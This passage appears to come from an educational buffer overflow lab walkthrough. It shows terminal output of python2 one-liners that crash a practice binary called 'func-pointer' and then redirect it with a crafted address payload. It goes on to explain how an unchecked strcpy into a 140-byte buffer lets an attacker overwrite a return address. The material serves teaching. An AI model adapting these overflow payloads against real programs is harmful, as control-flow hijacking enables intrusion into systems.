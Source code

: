 ```

┌──(kali㉿kali)-[~/bufferoverflow/learn]
└─$ python2 -c "print 'A' * 13" | ./func-pointer
this is the normal function

┌──(kali㉿kali)-[~/bufferoverflow/learn]
└─$ python2 -c "print 'A' * 14" | ./func-pointer
zsh: done                          python2 -c "print 'A' * 14" | 
zsh: illegal hardware instruction  ./func-pointer

┌──(kali㉿kali)-[~/bufferoverflow/learn]
└─$ python2 -c "print 'A' * 15" | ./func-pointer
zsh: done                python2 -c "print 'A' * 15" | 
zsh: segmentation fault  ./func-pointer

so let's add it return address

┌──(kali㉿kali)-[~/bufferoverflow/learn]
└─$ python2 -c "print 'A' * 14 + '\x67\x05\x40\x00\x00\x00'" | ./func-pointer
this is the special function
you did this, friend!


```

### Buffer Overflows 

For this example, look at overflow-3 folder. Inside this folder, you’ll find the following C code.

![](https://lh6.googleusercontent.com/6rGkQTpjleEqcJC8OQ6rC0ccdd1ebufPN5F-NuFiQmfCrZuLpjHQEPfKrEEGxbqBrShqS5FFIs05q24gRm1ylOR1Pz1QZgw-4t7isuaABnf2EbV1lZ3b9Xmryhx3eV30M5qO9Bex)

This example will cover some of the more interesting, and useful things you can do with a buffer overflow. In the previous examples, we’ve seen that when a program takes users controlled input, it may not check the length, and thus a malicious user could overwrite values and actually change variables.

In this example, in the copy_arg function we can see that the strcpy function is copying input from a string(which is argv[1] which is a command line argument) to a buffer of length 140 bytes. With the nature of strcpy, it does not check the length of the data being input so here it’s also possible to overflow the buffer - we can do something more malicious here. 

Let’s take a look at what the stack will look like for the copy_arg function(this stack excludes the stack frame for the strcpy function):

![](https://i.imgur.com/zNMC7in.png)

Earlier, we saw that when a function(in this case main) calls another function(in this case copy_args), it needs to add the return address on the stack so the callee function(copy_args) knows where to transfer control to once it has finished executing. From the stack above, we know that data will be copied upwards from buffer[0] to buffer[140]. Since we can overflow the buffer, it also follows that we can overflow the return address with our own value. We can control where the function returns and change the flow of execution of a program(very cool, right?)
